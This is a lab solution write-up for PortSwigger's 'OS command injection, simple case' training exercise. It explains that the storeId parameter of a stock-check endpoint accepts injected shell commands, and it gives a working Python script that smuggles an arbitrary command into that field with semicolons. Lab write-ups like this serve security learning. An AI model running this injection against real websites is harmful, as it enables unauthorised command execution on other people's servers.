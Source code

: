 ```yaml
---
title: OS command injection, simple case
tags:
  - web-app
  - command
  - injection
---
```


<a href="https://portswigger.net/web-security/os-command-injection/lab-simple/">
1. OS command injection, simple case</a>

Vulnerable website has a command injection vulnerability in the /product/stock
POST endpoint. The storeID parameter allows you to inject arbitrary commands,
breaking the parsing of the string with the ; character.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net
# --c "uname -a"

from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, command: str) -> None:
        self.url = url.rstrip("/")
        self.command = command

    def solve(self) -> None:
        self.s = requests.Session()
        r = self.s.post(
            f"{self.url}/product/stock",
            data={"productId": "1", "storeId": f"; {self.command} ;"},
        )
        print(r.text)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--c", "--command", dest="command")
    args = parser.parse_args()
    s = Solution(args.url, args.command)
    s.solve()


if __name__ == "__main__":
    main()
```
